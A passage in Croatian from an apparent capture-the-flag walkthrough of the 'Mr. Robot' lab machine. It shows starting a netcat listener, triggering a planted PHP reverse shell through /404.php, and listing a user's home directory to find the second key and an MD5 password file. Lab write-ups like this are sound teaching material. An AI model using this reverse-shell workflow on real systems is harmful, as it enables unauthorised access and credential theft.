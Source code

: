 {{< alert >}}
**Napomena:** Obratite pozornost na IP adresu u kodu; ovdje imamo lokalnu IP adresu, tj. IP adresa našeg računala. Možemo provjeriti lokalnu IP adresu s `ifconfig`.
{{< /alert >}}

### PHP reverse shell preko netcat-a

Nakon što smo zamijenili i promijenili IP adresu u skripti, pokrenut ćemo **Netcat** na portu koji s nama uspostavlja vezu preko skripte. To radimo sljedećom naredbom:

> ```shell
> nc -nlvp 1234
> ```

Nakon toga, moramo otići na **http://IP_ADRESA/404.php** ovaj link u web pregledniku.

<p align="center">
   <img width="100%" src="7.webp" />
</p>

Kao što vidimo, otvorili smo školjku u terminalu. Netcat je uspostavio vezu.

Sada ćemo provjeriti koje se datoteke nalaze u direktoriju **/home/robot**. To radimo naredbom:

> ```shell
> ls -l /home/robot
> ```

Sada znamo lokaciju drugog ključa: 

> ```shell
> $ ls -l /home/robot
> total 8
> -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
> -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
> ```
